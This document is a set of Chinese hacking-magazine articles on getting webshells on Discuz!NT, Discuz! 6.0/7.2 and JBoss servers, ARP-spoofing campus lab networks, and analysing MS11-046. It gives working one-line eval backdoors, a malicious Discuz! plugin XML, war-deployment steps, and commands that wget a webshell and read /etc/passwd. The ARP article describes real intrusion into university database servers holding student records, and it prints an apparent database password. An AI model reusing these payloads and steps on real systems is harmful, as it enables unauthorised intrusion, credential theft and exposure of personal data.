Discuz!NT 是 Discuz 模板的一个拳头产品，其脚本采用 asp.net 编写。Discuz! 还有另外的一个产品——php 版本的 Discuz! 论坛，很多人都熟悉 Discuz!6.0、Discuz!7.2、Discuz!x1.5、Discuz!x2.0，使用 php 版本的论坛用户数量较多，已公布的有关 php 版本的利用漏洞较多，但 Discuz!NT3.5.2 版本的漏洞较少，本文就 Discuz!NT3.5.2 文件编辑 0day 获取 Webshell 进行探讨，同时还讨论如何发现网站的真实路径，通过管理后台获取网站数据库用户名和密码，最后总结了 Webshell 下备份数据库和压缩源代码的方法。

### 1. 登录后台

在 IE 浏览器中输入论坛登录地址“http://localhost/login.aspx”，输入用户名和密码登录系统。登录的用户必须具有管理员权限，登录系统后在右上角的菜单中单击“系统设置”，再次输入管理员的密码，即可进入后台管理界面，如图 1 所示。

### 2. 文件模板编辑 0day

在 Discuz!NT3.5.2 版本中存在文件编辑漏洞，单击“界面”-“模板管理”进入模板文件编辑界面，在模板列表中任意选择一个模块，单击“管理”进入模板文件编辑界面，如图 2 所示。选择任意一个文件使用快捷键 Shift 进行编辑，此时会打开一个新窗口，在该窗口中会存在 path、filename、templateid 和 templatename 四个参数，其中 path 和 filename 参数可自由修改，只要 path 和 filename 在当前网站存在且正确，即可编辑当前网站的文件。修改或者添加一句话后门，在这些文件中即可获得一句话后门权限。详细参数如下：

```
/global/global_templatesedit.aspx?path=../tools/&filename=ajax.aspx&templateid=1&templatename=Default
```

图 2 编辑模板文件

### 3. 利用模板文件编辑 0day

利用以上方法打开 rss.aspx 文件，将 rss.aspx 文件中代码 `<%@ Page Inherits="Discuz.Web.UI.RssPage" %>` 替换为 `<%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>`，如图 3 所示，即可获得一句话后门，后门地址为：“http://www.somesite.com.cn/tools/rss.aspx”。

图 3 修改 rss.aspx 文件

## 4. 获取网站的真实路径

提交错误的 path 和 filename 参数，即可爆出网站的真实路径，如图 4 所示，获取网站的真实路径为“D:\WebSites\bbs\”。

### 5. 获取 Webshell

在中国菜刀一句话木马管理器中添加一个 aspx 类型的一句话后门，地址为“http://www.somesite.com.cn/tools/rss.aspx”，连接密码为“pass”。在中国菜刀一句话木马管理器中双击刚才建立好的地址，即可获得 Webshell，如图 5 所示。

图 4 获取网站的真实路径  
图 5 获取 Webshell 权限

### 6. 还原原文件源代码

使用中国菜刀一句话木马管理器打开 rss.aspx 文件，将其中的代码还原为 `<%@ Page Inherits="Discuz.Web.UI.RssPage" %>`，如图 6 所示。切记：在还原 rss.aspx 文件前记得上传其他网页木马，修改文件代码后可能导致网站出现运行错误，因此在成功获取 Webshell 后一定要及时还原。

图 6 还原源代码

### 7. 数据库信息暴露 0day

在 Discuz!NT3.5.2 版本中虽然提供了数据库备份功能，但在实际操作过程不一定可行，如图 7 所示。单击“工具”-“数据库”-“数据库备份”，在备份名称中输入想要备份的数据库名称，单击开始备份数据库，程序会自动备份数据库。在实际测试过程中还发现数据库备份页面会暴露数据库连接密码，数据库用户名和密码均以明文形式存在于数据库备份功能页面中，通过源代码查看即可获取。

图 7 数据库备份  
图 8 使用 SQL 语句备份数据库

### 8. 备份网站数据库

使用 Discuz!NT3.5.2 提供的数据库备份功能在某些情况下根本无法备份数据库，操作页面上显示备份成功，但实际根本没有备份成功。因此只能另外想办法，如图 8 所示，通过 asp.net 的网页木马连接数据库后，即可执行数据库备份命令。

```
backup database databasename to disk='d:\website\filename.bak'
```

将数据库“databasename”备份为“d:\website\”下的 filename.bak。

### 9. 压缩源代码程序

将 rar.exe 和 rarreg.key 两个文件上传到网站可写目录，如图 9 所示，执行命令将 `d:\websites\somesite.com.cn` 目录下的所有文件打包为 `d:\websites\download\ruby\website.rar`。

```
rar.exe a -r d:\websites\download\ruby\website.rar d:\websites\somesite.com.cn


```

图 9 压缩源代码程序

前置知识：无  
关键词：JBoss，Webshell，J2EE

## JBoss Application Server 获取 Webshell

图/文 Simeon

JBoss 是全世界开发者共同努力的成果，一个基于 J2EE 的开放源代码的应用服务器，而且 JBoss 代码遵循 LGPL 许可，可以在任何商业应用中免费使用它，而不用支付费用。2006 年，JBoss 公司被 Redhat 公司收购。JBoss 是一个管理 EJB 的容器和服务，支持 EJB 1.1、EJB 2.0 和 EJB3.0 的规范。

它支持 Servlet/JSP 的 Web 容器，一般与 Tomcat 或 Jetty 绑定使用。JBoss 有下面一些优点。

- 1. JBoss 是免费的，开放源代码 J2EE 的实现，通过 GPL 许可证进行发布。但同时也有闭源的，开源和闭源的流入流出不是同一途径。
- 2. JBoss 需要的内存和硬盘空间比较小。
- 3. 安装便捷：解压后，只需配置一些环境变量即可。
- 4. JBoss 支持“热部署”，部署 BEAN 时，只拷贝 BEAN 的 JAR 文件到部署路径下即可自动加载它；如果有改动，也会自动更新。
- 5. JBoss 与 Web 服务器在同一个 Java 虚拟机中运行，Servlet 调用 EJB 不经过网络，从而大大提高运行效率，提升安全性能。
- 6. 用户可以直接实施 J2EE-EAR，而不是以前分别实施 EJB-JAR 和 Web-WAR，非常方便。
- 7. JBoss 支持集群。

在很早以前曾经写过一篇有关通过 JBoss 获取 Webshell 的文章，本篇文章主要介绍如何获取 JBoss Application Server 的 Webshell。JBoss Application Server 简称 JBoss AS，即 JBoss 应用服务器。下面是详细的渗透方法和过程：

### 扫描 JBoss Application Server 端口

JBoss 默认为采用 8080 端口，也可以自定义端口，通常为 80 和 8080 端口。扫描端口可以使用 Nmap，也可以使用 Jsky 自带的 IISPuter 进行扫描。通过扫描发现目标服务器开启 8080 端口，通过 IE 浏览器直接对该 IP 地址进行访问，如图 1 所示，获取了 JBoss AS 主界面，该界面跟 JBoss 界面比较类似。
图 1  JBoss AS 主界面

在 JBoss AS 主要有两大类，一类是管理 JBoss AS 实例，另外一类是 JBoss AS 在线资源。在 JBoss AS 实例中共有四个选项。

- （1）Administration Console：管理控制台，该控制台可以管理 JBoss AS 的所有应用，管理部署应用程序。单击该链接会出来一个登录窗口，如图 2 所示。在该登录窗口需要输入用户名和密码，验证正确后即可进行管理。如果在 JBoss AS 中未对管理台设置访问密码，则可以直接进入管理控制台。
图 2  JBoss AS 管理控制台

- （2）JMX Console：JMX Console 是 JBoss 中的一个 Web 应用程序，它可以查看当前装载到 JBoss 服务器中的 MBeans、检查它们当前的状态，并用浏览器读取和写入它们的属性。单击该链接打开 JMX Console 的主界面，如图 3 所示，可以看到 JMX Agent 的情况，也即部署的 war 程序详细情况。在该窗口还可以看到对象名称过滤器（Object Name Filter），按照不同名称查看 JBoss 的 Web 应用情况。对 JBoss 服务器渗透的一个方法就是通过 jboss.deployment 下的 flavor=URL,type=DeploymentScanner 来添加一个可下载的 war 地址来部署，从而获得一个 Webshell。
图 3  JMX Console 主控制台

- （3）JBoss Web Console：JBoss Web Console 主要显示 JBoss 版本信息、JBoss 运行时间、主机 IP 地址、环境信息、硬件信息以及 JVM 硬件等信息。如图 4 所示，掌握这些信息在渗透过程中非常有用。
- （4）Tomcat status (full) (XML)：主要查看 Tomcat 的运行 status，可以看到目前正在网站运行的程序情况，如图 5 所示。
### 通过 JBoss AS 部署 Webshell

#### 1. 登录验证

通过 Administration Console 进入管理控制台，如图 6 所示，有些服务器设置了口令，不过该控制台可以进行暴力破解，可以尝试 admin/admin、admin/123456 等弱口令。
#### 2. 查看 Web Application（WAR）

单击 JBossAS Servers 下的“Web Application（WAR）”，展开 war 的部署情况；如图 7 所示，显示所有已经部署的 war，管理员可以通过这个来查看是否被入侵过。
#### 3. 上传 war 文件

在 Web Application 主界面右下方有一个“Add a new resource”按钮，单击该按钮来部署新的 war，如图 8 所示。单击浏览，选择一个 war 文件，如果没有 war 文件，可以执行命令 `jar -cvf myshell.war index.jsp` 将 Webshell 文件 index.jsp 生成 myshell.war。单击“continue”按钮继续进行部署，如果部署的 war 文件不是 JBoss 能够识别的（不是通过 jar 命令生成的），则会报错，如图 9 所示。
针对该情况有两种解决方案：一种是自己搭建环境生成一个 war 文件，另外一种就是收集一些 jspwebshell 的 war 文件。重新上传能用的 war 文件，如图 10 所示，成功部署。

#### 4. 启动 Web Application 应用程序

以查看其配置信息，如图 11 所示，在该配置页面可以看到其一般属性、名称、版本和描述等信息，该信息主要用于部署程序调试等用，在 Webshell 中基本无用。
图 10  重新部署 war 文件
图 11  查看 war 程序的配置情况

单击“control”标签，进入服务控制页面，单击“start”按钮开启该 war 应用。如果想关闭该应用，单击“stop”按钮停止即可，而 Restart 按钮则是表示重启该 war 应用，如图 12 所示，将刚才部署的 war 的 Webshell 运行。
图 12  运行刚部署的 war 应用

## 获取 JSP 的 Webshell

在地址栏注入“http://202.10.xxx.xxx:8080/war/”进行 Webshell 访问测试，如图 13 所示，顺利获取 JSP 的 Webshell 界面，输入密码即可进入 Webshell 进行管理。如图 14 所示，获取该 ServerName、ServerPort、Server OS、CurrentUser、CurrentUserFolder、CurrentWorkingDirectory、程序相对路径、程序绝对路径、网络协议、服务器软件版本信息、JDK Version、JDK HomeDir、JAVA VM、JAVA VM Name、JAVA ClassPath、JAVA LibraryPath、JAVA TmpFolder、JIT 编译器名、扩展 Folder 路径、客户端信息、RemoteAddress、RemoteHostName、Username、请求方式以及应用安全套接字层等信息。

由该页面可以知道目前用户为 root 权限，服务器最高权限，后期可以收集 root 等其他用户的 .bash_history、.mysql_history，获取 etc/passwd、etc/shadow 等有关密码信息文件，获取网站敏感配置文件等。
图 13  获取 Webshell
图 14  获取服务器等相关信息

前置知识：无

关键词：JBoss，信息，Webshell

### JBoss 信息查看获取 Webshell
图/文 Simeon

关于 JBoss 的渗透有很多方法，本文提到的这个方法是在前人的基础上快速获取 Webshell，该方法简单可行。对于 Linux 的渗透，国外黑客喜欢直接执行命令，而国人喜欢 GUI，因此在获取简单的 Webshell，也即仅仅可以执行命令的 Webshell 情况下，如何获取真正可操作的 Webshell 也是一大难点，本文介绍的方法就是专门解决该办法。

实际上只要存在漏洞的互联网服务器，还是有很多黑客进行入侵，特别是国外的黑客。通过查看 Tomcat 的所有状态来获取目前 JBoss 应用的运行情况，如图 2 所示，从该图中可以看到至少被两个人入侵过，且服务器还在运行该 Webshell，“zecmd/zecmd.jsp”即为网站的 Webshell。

### 测试 JBoss 网页

通过端口扫描获取 80 和 8080 端口开放的服务器，如图 1 所示，该服务器采用 80 端口作为 JBoss 的 Web 应用端口。测试 JBoss 网页的目的是为了查看 JBoss 服务器是否能正常运行，一些服务是否开启。
图 2  查看 Tomcat 的状态

### 执行命令测试

输入 Webshell 的完整地址，打开该 Webshell 页面，如图 3 所示，在输入框中输入“cat /etc/passwd”，查看 Linux 系统用户的密码，测试结果表明该 Webshell 的权限是 root 权限，也即服务器权限。
图 1  测试 JBoss 网页

### 查看 Tomcat 状态

很多人首先想到的就是通过 JMX Console 的 deployment 的 addurl 函数来部署 war 的 JspWebshell，实际上……

### 下载 JspWebshell 的 txt 文件到本地

虽然获取 Webshell，但该 Webshell 为 cmd 的 Webshell，操作起来非常不方便，因此需要上传并部署一个好用的 Webshell。先在肉机服务器上上传一个 txt 的 JspWebshell，然后使用 wget http://www.somesite.com/Browser.txt 将该文件下载到该 Linux 服务器上，然后使用“`ls -al`”查看文件是否下载成功，如图 4 所示，在该列表中显示 Browser.txt 已经成功下载到本地。
图 3  测试 Webshell
图 4  下载 Webshell 到 Linux 服务器

### 寻找可运行路径

在 Linux 层次结构中，用户可以在被授权的任意目录下利用 mkdir 命令创建新目录，也可以利用 cd 命令从一个目录转换到另一个目录。然而，没有提示符来告知用户目前处于哪一个目录中。想要知道当前所处的目录，可以用 pwd（Print Working Directory 的简写 pwd）命令，该命令显示整个路径名。在渗透过程中 pwd 命令使用非常频繁，在本例中使用“`pwd`”命令获取当前位置，如图 5 所示，显示路径为“`/opt/jboss-4.0.5.GA/bin`”。
图 5  获取当前执行命令的路径

### 查看 JBoss 默认部署路径的文件和目录

通过“`ls -al`”来获取当前路径下的文件和目录名称，完整命令为“`ls -al /opt/jboss-4.0.5.GA/`”。通过在绝对路径中添加新的路径来获取 JBoss 部署的路径“`/opt/jboss-4.0.5.GA/server/default/deploy/`”，如图 6 所示，显示的分为文件和目录两部分，目录是以 d 开头的。
图 6  查看 JBoss 默认部署路径的文件和目录

### 查看管理后台部署文件

部署路径下的目录有两种，一种是“filename.war”，另外一种是系统自带的，例如“management”目录就是管理默认目录，如图 7 所示，该目录已经被部署了好几个 shell。

### 复制 JspWebshell 到指定目录

将下载的 JspWebshell 复制到该目录，即可获取 Webshell，执行命令“`cp Browser.txt /opt/jboss-4.0.5.GA/server/default/deploy/management/zmeu.war/2.jsp`”，如图 8 所示，然后执行“`ls -al /opt/jboss-4.0.5.GA/server/default/deploy/management/zmeu.war`”命令查看文件是否复制成功，结果如图 9 所示，文件已经成功复制。
图 7  查看管理后台部署文件
图 8  复制 JspWebshell 到指定目录
图 9  查看复制文件是否成功

### 成功获取 Webshell

在地址栏输入“http://xxx.xxx.xxx.xxx:8080/zmeu/2.jsp”进行访问，如图 10 所示，成功获取 jspWebshell。前面对 Webshell 是一个执行命令的 WebShell，其功能相对简单，通过将功能复杂的 Webshell 上传上去才能执行更多的操作。
图 10  成功获取 JspWebshell

## 管理维护

对于管理人员来说，可以通过查看 Tomcat 的状态来获取 Web 应用情况，如图 11 所示，从 Tomcat Status 中去看 Application list 即可，在该列表中可以看到至少被部署了 6 个 Webshell，发现这些 Webshell 后，到 JBoss 部署文件夹，将相应的 war 和文件删除即可。
图 11  查看已经被部署的 Web 应用

前置知识：无

关键词：Discuz!，Webshell

## Discuz!6.0 管理员编辑模板文件获取 Webshell
图/文 simeon

Discuz! 论坛提权越来越难，很多情况下，即使获取了管理员密码，也不能获取 Webshell，因此如何获取 Discuz! 论坛的权限至关重要。下面介绍一种方法可以快速获取 Webshell。

### 编辑板块

使用管理员的密码和用户登录系统，并进入设置，如图 1 所示，单击“论坛管理”，进入论坛管理模块。
图 1 进入论坛管理模块

### 模板编辑

在界面风格中单击“模板编辑”，如图 2 所示，系统会自动列出目前论坛可供使用的模板名称。
图 2 查看可供编辑的界面风格模板

### 选择一种模板进行编辑

任意选择一种模板，在 Discuz! 语言包中选择 magics 进行编辑，如图 3 所示，会出来一个显示文字内容的页面，在该页面中加入一句话后门代码，如图 4 所示，然后单击提交保存代码。

```php
<?php @eval($_POST[c]);?>


```
图 3 选择语言包
图 4 编辑模板文件

### 获取一句话后门

打开中国菜刀，将该 shell 地址加入中国菜刀中，打开后成功获得一句话后门，如图 5 所示。
图 5 获取一句话后门

前置知识：无

关键词：Discuz!，XML

## Discuz!7.2 管理员权限插件导入获取 Webshell
图/文 simeon

Discuz!7.2 论坛相对获取 Webshell 较难，在获取管理员权限后可以通过导入插件来获取 Webshell，不过该漏洞在新版本中已经被修补了，仅对 Discuz!7.2 Release 20101020 以下版本有效。插件导入漏洞产生原因是因为参数过滤不严格导致的。

### 1. 登录后台

正常登录 Discuz!7.2 论坛系统，登录后，如果具备管理员权限会在个人中心旁边有一个管理中心链接，单击该链接，再次输入用户名和密码，登录成功后进入后台管理，如图 1 所示。
图 1  Discuz!7.2 后台管理

### 2. 论坛插件管理

在后台管理主界面中单击“插件”进入论坛插件列表，如图 2 所示。在论坛插件管理中会显示所有的论坛插件，如果插件未安装，单击该界面插件列表中的具体插件名称后的“安装”链接；按照提示即可完成插件的安装。反之单击“卸载”链接可以将安装好的插件卸载掉。当一个插件安装成功后，还需要选中该插件的启用单选框，单击“提交”使其生效。
图 2  论坛插件管理

### 3. 导入 Discuz!7.2 提权 Webshell 插件

在论坛插件管理中单击“导入”按钮，如图 3 所示，选择上传文件导入方式。在本案例中选择已经生成好的 dz7.2.xml 文件，同时选中“允许导入不同版本 Discuz! 的插件[易产生错误!]”，单击“提交”导入插件。成功导入插件后会给出一个提示。
图 3  导入 Discuz!7.2 提权 Webshell 插件

Discuz!7.2 提权 Webshell 插件漏洞实际上是由于插件导入时未对数据进行严格处理后导致的，其利用代码如下，将其保存为 XML 文件即可。

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<root>
  <item id="Title"><![CDATA[Discuz! Plugin]]></item>
  <item id="Version"><![CDATA[7.2]]></item>
  <item id="Time"><![CDATA[2011-03-16 15:57]]></item>
  <item id="From"><![CDATA[Discuz! Board (http://www.antian365.com/)]]></item>
  <item id="Data">
    <item id="plugin">
      <item id="available"><![CDATA[0]]></item>
      <item id="adminid"><![CDATA[0]]></item>
      <item id="name"><![CDATA[wwwsite]]></item>
      <item id="identifier"><![CDATA[shell]]></item>
      ...
      <item id="scriptlang">
        <item id="a"><![CDATA[{=1);eval($_POST[cmd]);}]]></item>
      </item>
    </item>
  </item>
</root>


```

为“`/forumdata/plugins/shell.lang.php`”，如图 5 所示，在本地打开后，可以看到在其中有一句话后门代码插入到该页面中。
图 5  Webshell 的实际地址

### 4. 启用导入的插件 Webshell

如图 4 所示，插件导入成功后会在插件名称中显示，在本例中显示为 wwwsite，选中该插件，然后单击“提交”按钮使安装的插件生效。如果未启用，即使导入了插件也获取不了 Webshell。
图 4  启用导入的插件 Webshell

### 5. 查看 Webshell 地址

Discuz!7.2 插件漏洞获取的 Webshell 网站相对地址。

### 6. 获取 Webshell

输入 Webshell 的网页地址“http://localhost/dz7.2/forumdata/plugins/shell.lang.php”在网页中进行实际测试，如果未出现错误，则表示能够获取 Webshell。如图 6 所示，在中国菜刀中添加一条 Webshell 记录，单击该记录即可获取 Webshell，如图 7 所示，可以对该网站进行各种操作。
图 6  添加 Webshell 记录到中国菜刀
图 7  获取一句话 Webshell

前置知识：无

关键词：MSSQL，ARP，欺骗
## 渗透数据库之热咖啡的绝妙应用

图/文  李明政  陈相非

思路是相非的，稿子是我写的，相非很懒啊，懒到经常十二点起床，就更不用说写稿子了，但是署名还是署的相非的，为了蹭黑客防线下半年的合订本啊（我们人手一本）。呵呵。好了闲话少说进入正题。话说我好不容易爬到九楼机房，累死我了，电梯里面人太多了，都坐不上电梯。

这次的条件是这样的。一个机房的管理系统，肯定是非 Oracle 的数据库了，然后局域网，XP SP3 的机器，所有机器都装 360。现在想要把数据库搞到手，搞到数据之后可以尽情地自由发挥了，这可是我们大学所有学生的信息啊，还有社会工程学之类的……

其实拿数据库的话无非就是网站注入、破解密码或者是上传漏洞、传马、提权等等吧。但是这次是机房，根本没有 URL 让你注入和网站让你传马啊，呵呵。有 0day。微软的那个被炒得沸沸扬扬的“天窗 0day”也不过是提权的洞，远程溢出的洞除了某些安全审计人员没有爆出来之外，在 Windows 上面目前还能存在的远程溢出的漏洞反正我是一个都不知道了。远程溢出的危害太大了，出来一个远程溢出的 0day，基本上对于某个版本的 Windows 都是通杀的，根本就用不着再在第三方软件上面找漏洞入侵 Windows 的机器了。

这个时候可以说一下某欺骗了，大家也都猜得出来是 ARP 欺骗了。ARP 欺骗秒杀机房的数据库，下面我们分别用 ARP 欺骗来截获图书馆和我们学校 9 楼机房的数据库密码。

我们这次要用的工具有以下几种。

- 一个可以抓包的嗅探器，我采用的是嗅探器，如图 1 所示。
- 一个用来 ARP 欺骗的工具，依然是老牌工具 Cain。
图 1

我们首先要知道与数据库通信的那台机器的 IP。用 Cain 扫一下，如图 2 所示。
图 2

很明显，根据 MAC 地址可以分辨出管理机和学生机器的不同。我把目标锁定在 IP 最后一位为 1、2、3、10 这四个 IP 上面。本来这个时候就可以开始进行欺骗了，同时欺骗四台机器，但是我还是想要精确点，打开嗅探器，如图 1 所示设置（这样设置比较粗略，所以关掉所有联网的软件，否则出来很多数据，干扰性大）。通常计费管理软件都有一个可以查询当前上机时间的菜单，我们学校用的是博斯特，查询结果如图 3 所示。
图 3

我用的是我同学的卡上机的，这个时候嗅探器有反应了。截图如图 4 所示。
图 4

我多点了几下，所以出来了好几次。我们可以很清晰地看到我本机是 222.27.161.235。我发了一个查询的包给 222.27.161.2，然后 222.27.161.2 又给我回复了一个包。协议是 UDP，端口是（本机）5841—8451（管理机）。

先说点题外话，最起码我目前测试的两个机房管理系统：一个是博斯特的机房管理系统，他们的主页是这个 http://www.whbestsoft.com/。另一个是易思的网络管理系统（已经被合并也或者倒闭了，网络上找不到他们的信息）。它们全都是用 UDP 通信的，一来快速，二来节省资源。这样我们知道了远端管理的 UDP 端口之后可以干很多恶心的事情。比方说 UDP 洪水集中攻击管理机器的那个 UDP 端口，效率相当高，一台机器就够了，造成的结果就是所有学生都刷卡上不了机也下不了机，把前面网管急得团团转，我就试验过一次，挺缺德的一件事情。局域网 80SEC 的一个软件叫 SKILLER，中文名叫幻境网盾，也是挺恶心的一个软件，感兴趣的读者可以自己搜索这个软件的作用。

两种恶心的方法都可以攻击管理机器让它掉线，而且没有 ARP 这个限制，都是非常恶心的东西。好了接着回到我们的正文。

我们现在已经明确知道管理机的 IP 了，我们使用 Cain 对它进行欺骗。首先关于数据库的一个基础知识要说一下，就是管理机上是没有数据库的，它只是安装了一个认证的软件，然后这个认证的软件向数据库服务器做请求，当然每次请求的时候都需要验证一次数据库的密码。密码呢，很不幸，都是明文的，包括这个目前还在更新的博斯特的机房管理软件。因为对于程序员来说，不加密省事啊，而且效率还高，呵呵。

Cain 的设置要说一下，如图 5 所示。
图 5

当机器数量很少的时候我们选择 Select All 就可以了，Cain 不会崩溃，但是一旦你欺骗的机器太多，比方说我们欺骗的是数据库，只要选上 3306、1433、1521 这三个端口对应的选项就可以了，减少 Cain 崩溃的几率。好了我们开始欺骗，这是我刚才欺骗的截图，如图 6 所示。
图 6

（外网连这个 IP 能连上，sa 的密码我处理了一下）我们用 SQL 查询分析器连上去，如图 7 所示。看到这里，有的同学可能觉得有点奇怪，怎么数据库服务器的 IP 是 222.27.161.2。刚开始我和相非也没注意，直接改了放大镜成 CMD，3389 连了上去，看了一下任务管理器，2003 的机器，管理员不在线，我们登录了上去。后来才注意到原来这个认证的机器和数据库服务器被配置成了同一台机器，还和我们这些学生机器是同一个网段，不禁骂管理员太小白，唉……
图 7

不管怎么说大功告成了，SA 的权限可是 System 的权限啊。什么保存 Hive 文件跑 scm 的密码，又或者放大镜 Shift 后门然后 3389 上去等等吧，各种奇技淫巧啊，呵呵，这里不再表述。9 楼机房的这里算完事，我下机了，然后去图书馆，给大家演示一下 ARP 欺骗通杀数据库密码的通用性如何。

好了，我来到图书馆了，从 9 楼坐电梯下去然后爬上图书馆五楼，还是气喘吁吁地上来的。可是没有座位啊，等了 10 多分钟。我非常奇怪今天才周二怎么这么多人上网，奇怪啊。忽然一个大一的小姑娘上完机给我让座，让我忽然想起来我已经大三了，大一的同学们忙着准备计算机基础这门课呢。

好了还是先截图看一下我们图书馆的机房管理软件吧，如图 8 所示。
图 8

这个软件已经不更新了，网上也搜索不到相关信息了。忘了说一下，这个易思的机房管理软件和博斯特的机房管理软件都是 MSSQL 的数据库。至于为什么，大家也都应该能够猜得到。依然是打开 IP 探测器，查询一下上机信息确定管理机 IP。当然用 Cain 根据 MAC 地址不同也可以确定，只是不如这样准确而已。截图如图 9 所示。
图 9

我们可以非常清楚地看到依然是 UDP 通信的，本机地址 222.27.224.49，管理机器地址 222.27.224.253。通信端口 UDP（本机）30003—30005（管理机）。依然可以用非常恶心的 SKILLER 或者 UDP 洪水让管理机下线。还是打开 Cain，ARP 的设置大家都非常熟悉了。截图如图 10 所示。
图 10

（这个密码我没做处理，外网是连不上的）。这个时候应该有的同学会说，太假了吧，这么快就拿到数据库密码了，而且还是 sa 的权限。呵呵，我也没办法啊，ARP 欺骗在局域网内实在是太恶心了。忘了交代了，9 楼的学生机貌似装彩影了，但是管理机没有装彩影 ARP 防火墙，装了 360 安全卫士了。360 里面默认的那个 ARP 欺骗防护应该是开了，可想而知 360 对于 ARP 欺骗的防范……呵呵。网上挺多用 Cain 做 ARP 欺骗的，还有中间人的文章的，但是都没这么恶心，我想这篇文章是我目前用 Cain 做 ARP 欺骗的挺恶心的一篇文章。后来我问相非这思路是怎么来的，相非说是他跟他的一个同学学的。果然学无止境啊。

我们还是用 SQL 查询分析器连上去（TDS server 202.118.216.30），密码 j!fe!_30。连接结果失败，如图 11 所示。当然这是在我意料当中的啊。
图 11

至于为什么，我下面解释一下，同时也提出一些……

## 防范 ARP 欺骗的对策

首先说一下为什么我们连不上去啊。下面是相非给出的解释。

话说一年之前呢，你是能够连上去的，当时图书馆所有的 IP 全都是 192.168.*.* 这个形式的。现在图书馆的 IP 全都改成了外网 IP，比如说我的这台正在上机的机器 222.27.224.49。其间还发生了一件事，原来的管理机 .253 的那台机器是可以 ping 的，现在设置成不回复 ping 包了。可想而知，管理员在安全上面做文章了。

归纳一下：一年之前本机 IP 是 192.168.*.* 这个形式的时候，是能够连上那台数据库服务器的；改成外网 IP 之后就不能连上了。可能很多同学也猜出来了，管理员把数据库服务器放到内网当中了。至于这个 TDS server 202.118.216.30，他只是把认证包发给那个内网当中的数据库服务器而已。您猜对了，202.118.216.30 这个 IP 呢，实际上是一台路由器，连到海枯石烂也都是连不上的；数据库服务器真正的 IP 地址是 192.168.1.50。

现在呢，在图书馆用外网 IP 是连不上的，可是奇技淫巧到处不在啊，还是有办法能连上的。您可能会发现现在的处境相当于我们现在想入侵内网，但是我们手里一台内网的机器都没拿下来，什么注入啊、上传大马提权啊，在这都是用不上的。至于往老师的内网机器上插 U 盘种个木马，你能做到那也算很极品啦，呵呵，这就看个人造化了。

但是在我们学校还是有办法连上这台内网的数据库服务器的。不知道各位同学在上大学的时候注意没，图书馆有类似于 ATM 的那种机器，可以查询一下你当前都借了哪些书，或者图书馆哪本书还剩余了多少本。我不多说了，应该有思路了。可能有的同学会说 ATM Hack。我没那么高本事，虽然知道 BlackHat 有人能让 ATM 吐钱，但是也不知道它的原理。其实我的思路是这样的：既然这些机器能查询，就证明这些机器能连数据库，至于能不能连外网那不是很重要。仔细观察一下你们学校，这样的机器旁边都有几个网口，你可以把自己的笔记本带来，带根网线，用网线连接网口和笔记本，用科来网络分析工具分析一下 IP，给自己分配一个静态 IP 地址。很大程度上这些 IP 地址全都是图书馆内网的，然后你用笔记本就直接可以连处于内网的这个数据库服务器了，就相当于你的笔记本成为内网的一分子。在我们学校是可以的，而且这个内网 IP 还有访问外网的权限，就相当于还可以用笔记本免费上网了。

说了挺多。关于 ARP 的防范，除了把数据库服务器分到内网或者说划分到和学生机不在同一个网段之外，最没有办法的办法也就是 IP 和 MAC 地址绑定了，这是很重要的，其他的都是浮云啊。反正 ARP 欺骗是很不好解决的一个问题。还应该注意的一点就是，密码不要设置得都一样，像这样这么快就拿到两个数据库，这可是一个大学近万人的信息啊。从 MSSQL 的密码是明文传输这一点就说明，存储在数据库里面的密码加密方式估计在解密高手面前很可能就是不堪一击的，虽然能忽悠住我这样的小白。

关于安全的探索永无止境吧。

前置知识：汇编

关键词：MS11-046，本地提权，漏洞

## MS11-046 本地权限提升漏洞分析
文/图 爱无言

微软前几天刚刚发布了 MS11-046 本地权限提升漏洞的补丁，并对漏洞进行如下描述：

此安全更新可解决 Microsoft Windows 辅助功能驱动程序（AFD）中一个公开披露的漏洞。如果攻击者登录用户的系统，并运行特制应用程序，则此漏洞可能允许提升特权。攻击者必须拥有有效的登录凭据，并能够本地登录才能利用此漏洞。

此安全更新通过更正 AFD 在将输入从用户模式传递到 Windows 内核之前验证输入的方式来解决漏洞。

与 MS08-066 一样，该漏洞存在于子系统文件 Afd.sys 中。Afd.sys 是辅助功能驱动模块，用于支持 Windows 套接字应用程序，并管理 Winsock TCP/IP 通信协议。

将 Afd.sys 文件反汇编，在驱动程序入口函数 DriverEntry() 中存在如下派遣函数设置，如图 1 所示。

MS11-046 的问题函数为 AfdConnectApcKernelRoutine()，是在 AfdConnect 中用到的。至于 AfdConnect，它与 AfdBind 等一起是在派遣函数 AfdDispatchDeviceControl 中通过 IOCTL 号在 AfdIrpCallDispatch 表中索引的。

辅助功能驱动模块 Afd.sys 的数据段中存在表 AfdIoctlTable，其中放有各种 IOCTL 号，它与 AfdImmediateCallDispatch 表、AfdIrpCallDispatch 表的对应关系如图 2 所示，AfdConnect 对应的 IOCTL 号是 0x12007。
图 1
图 2

图 1 代码首先针对所有的 MajorFunction 号全部设置成 AfdDispatch 处理函数，然后再修改第 14 号分发函数，重新设置为 AfdDispatchDeviceControl。接下来是设置 FastIO 的处理函数，以及设置卸载函数。

MS08-066 权限提升漏洞的问题函数为 AfdGetRemoteAddress()，是在 FastIO 接口 AfdFastIoDeviceControl（该接口用于提供对 NtDeviceIoControlFile 的支持）中通过 IOCTL 号在 AfdImmediateCallDispatch 表中索引的；而 MS11-046 的问题函数为 AfdConnectApcKernelRoutine()。

用户在 Winsock 编程中用到 Win API 函数 connect() 的时候，该函数逐级向下调用，经过 NtDeviceIoControlFile，通过 system service 陷入内核，接着请求到达 Afd.sys 的派遣函数 AfdDispatchDeviceControl 中，通过 0x12007 索引到 AfdConnect 函数。从 connect() 到 Afd.sys 的函数调用关系如图 3 所示。
图 3

在 Afd.sys 内部，派遣函数 AfdDispatchDeviceControl 到 AfdConnect，再到问题函数 AfdConnectApcKernelRoutine() 的调用栈，如图 4 所示。
图 4

问题函数 AfdConnectApcKernelRoutine() 的 IDA 反汇编代码如图 5 所示，代码已加注释。其中，汇编语句 `mov eax, dword ptr [esi+3Ch]` 将把用户定义的输出缓冲区地址传给寄存器 eax，再通过汇编语句 `mov dword ptr [eax], ecx` 把连接成功的返回值 0 传入该用户自定义的地址中。以上过程中，用户自己定义的输出缓冲区始终没有得到任何合法性检查，所以用户在此可以提供任意缓冲区地址，包括内核地址。

```text
AfdConnectApcKernelRoutine() 反汇编（带注释）
```

图 5

